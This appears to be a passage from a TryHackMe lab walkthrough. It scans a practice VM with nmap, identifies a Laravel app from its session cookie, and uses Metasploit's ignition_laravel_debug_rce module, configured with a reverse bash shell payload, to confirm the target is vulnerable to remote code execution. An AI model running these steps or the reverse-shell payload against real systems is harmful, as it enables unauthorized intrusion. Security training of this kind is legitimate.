 ```shell-session
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 MACHINE_IP
```

### Challenge Walkthrough

After deploying the attached VM, run Nmap against the target:

Shell commands

```shell-session
nmap -T4 -A -Pn MACHINE_IP
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 10:30 EDT
Nmap scan report for 10.10.173.133
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Curabitur aliquet, libero id suscipit semper
|_http-server-header: Apache/2.4.54 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After loading the web application in our browser at http://MACHINE_IP:80 (use Firefox on the Kali web-Machine) and inspecting the Network tab, we can see that the server responds with an HTTP Set-Cookie header indicating that the server is running Laravel - a common web application development framework:

![Image of the discovered web application. The browser's network developer tools are open and the 'Set-Cookie: laravel_session' HTTP header is highlighted](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed3f13d38407304044dd845/room-content/657260c9b96783c5d2d193013578c100.png)

The application may be vulnerable to a remote code execution exploit which impacts Laravel applications using debug mode with Laravel versions before 8.4.2, which use ignite as a developer dependency.

We can use Metasploit to verify if the application is vulnerable to this exploit.

Note: be sure to set the HttpClientTimeout=20, or the check may fail. In extreme situations where your connection is really slow/unstable, you may need a value higher than 20 seconds.  

Shell commands

```shell-session
$ msfconsole
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=MACHINE_IP HttpClientTimeout=20

[*] Checking component version to 10.10.143.36:80
[*] 10.10.143.36:80 - The target appears to be vulnerable.
```

**Note: When using TryHackMe's Kali Web-Machine - you should use eth0 as the LHOST value (ATTACKER_IP), and not the VPN IP shown in the Kali Machine at the top-right corner (which is tun0).**

To find out what IP address you need to use, you can open up a new terminal and enter `ip addr`. The IP address you need will start with _10.x.x.x_. Remember, you will either need to use eth0 or tun0, depending on whether or not you are using the TryHackMe Kali Web-Machine.
